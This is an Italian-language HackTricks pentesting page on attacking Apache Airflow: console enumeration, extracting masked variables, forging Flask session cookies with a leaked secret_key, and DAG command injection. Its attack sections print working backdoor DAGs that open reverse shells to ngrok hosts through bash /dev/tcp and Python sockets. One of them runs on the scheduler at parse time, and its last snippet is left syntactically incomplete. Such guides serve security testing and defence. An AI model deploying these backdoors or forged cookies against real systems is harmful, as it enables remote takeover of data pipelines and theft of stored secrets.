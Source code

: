 # Sicurezza di Apache Airflow

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informazioni di base

[**Apache Airflow**](https://airflow.apache.org) funge da piattaforma per **orchestrare e pianificare flussi di dati o flussi di lavoro**. Il termine "orchestrazione" nel contesto dei flussi di dati indica il processo di organizzazione, coordinamento e gestione di flussi di lavoro complessi che provengono da varie fonti. Lo scopo principale di questi flussi di dati orchestrati è fornire set di dati elaborati e utilizzabili. Questi set di dati vengono ampiamente utilizzati da una miriade di applicazioni, tra cui strumenti di business intelligence, modelli di data science e machine learning, tutti fondamentali per il funzionamento delle applicazioni di big data.

In sostanza, Apache Airflow ti permetterà di **programmare l'esecuzione del codice quando accade qualcosa** (evento, cron).

## Laboratorio locale

### Docker-Compose

Puoi utilizzare il **file di configurazione docker-compose da** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) per avviare un ambiente completo di Apache Airflow con Docker. (Se sei su MacOS, assicurati di assegnare almeno 6 GB di RAM alla VM di Docker).

### Minikube

Un modo semplice per **eseguire Apache Airflow** è eseguirlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configurazione di Airflow

Airflow potrebbe memorizzare **informazioni sensibili** nella sua configurazione o potresti trovare configurazioni deboli:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC di Airflow

Prima di iniziare ad attaccare Airflow, è necessario capire **come funzionano le autorizzazioni**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attacchi

### Enumerazione della console Web

Se hai **accesso alla console web**, potresti essere in grado di accedere a una parte o a tutte le seguenti informazioni:

* **Variabili** (qui potrebbero essere memorizzate informazioni sensibili personalizzate)
* **Connessioni** (qui potrebbero essere memorizzate informazioni sensibili personalizzate)
* Accedile in `http://<airflow>/connection/list/`
* [**Configurazione**](./#airflow-configuration) (informazioni sensibili come la **`secret_key`** e le password potrebbero essere memorizzate qui)
* Elenco degli **utenti e dei ruoli**
* **Codice di ogni DAG** (che potrebbe contenere informazioni interessanti)

### Recupero dei valori delle variabili

Le variabili possono essere memorizzate in Airflow in modo che i **DAG** possano **accedere** ai loro valori. È simile ai segreti di altre piattaforme. Se hai **autorizzazioni sufficienti**, puoi accedervi nell'interfaccia grafica in `http://<airflow>/variable/list/`.\
Per impostazione predefinita, Airflow mostrerà il valore della variabile nell'interfaccia grafica, tuttavia, secondo [**questo**](https://marclamberti.com/blog/variables-with-apache-airflow/), è possibile impostare un **elenco di variabili** il cui **valore** apparirà come **asterischi** nell'**interfaccia grafica**.

![](<../../.gitbook/assets/image (79).png>)

Tuttavia, questi **valori** possono ancora essere **recuperati** tramite **CLI** (è necessario avere accesso al database), esecuzione **arbitraria di DAG**, **API** che accedono al punto di accesso delle variabili (l'API deve essere attivata) e **anche l'interfaccia grafica stessa!**\
Per accedere a quei valori dall'interfaccia grafica, **seleziona le variabili** a cui desideri accedere e **clicca su Azioni -> Esporta**.\
Un altro modo è eseguire un **bruteforce** del **valore nascosto** utilizzando il **filtro di ricerca** fino a quando non lo ottieni:

![](<../../.gitbook/assets/image (30).png>)

### Escalation dei privilegi

Se la configurazione **`expose_config`** è impostata su **True**, dalla **funzione Utente** in su è possibile **leggere** la **configurazione nel web**. In questa configurazione, appare la **`secret_key`**, il che significa che qualsiasi utente con questa chiave valida può **creare il proprio cookie firmato per impersonare qualsiasi altro account utente**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor DAG (RCE in Airflow worker)

Se hai **accesso in scrittura** al luogo in cui vengono **salvati i DAG**, puoi semplicemente **crearne uno** che ti invierà una **shell inversa**.\
Nota che questa shell inversa verrà eseguita all'interno di un **contenitore del worker di Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor DAG (RCE nel scheduler di Airflow)

Se imposti qualcosa da **eseguire nella radice del codice**, al momento della scrittura, verrà **eseguito dallo scheduler** dopo un paio di secondi dopo averlo inserito nella cartella del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creazione DAG

Se riesci a **compromettere una macchina all'interno del cluster DAG**, puoi creare nuovi **script DAG** nella cartella `dags/` e verranno **replicati nel resto delle macchine** all'interno del cluster DAG.

### Iniezione di codice DAG

Quando esegui un DAG dall'interfaccia grafica, puoi **passare argomenti** ad esso.\
Pertanto, se il DAG non è codificato correttamente, potrebbe essere **vulnerabile all'iniezione di comandi**.\
Questo è ciò che è successo in questa CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tutto ciò che devi sapere per **iniziare a cercare iniezioni di comandi nei DAG** è che i **parametri** sono **accessibili** con il codice **`dag_run.conf.get("nome_parametro")`**.

Inoltre, la stessa vulnerabilità potrebbe verificarsi con le **variabili** (nota che con sufficienti privilegi potresti **controllare il valore delle variabili** nell'interfaccia grafica). Le variabili sono **accessibili con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se vengono utilizzati ad esempio all'interno di un comando bash, potresti eseguire un'iniezione di comando.

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF**, controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
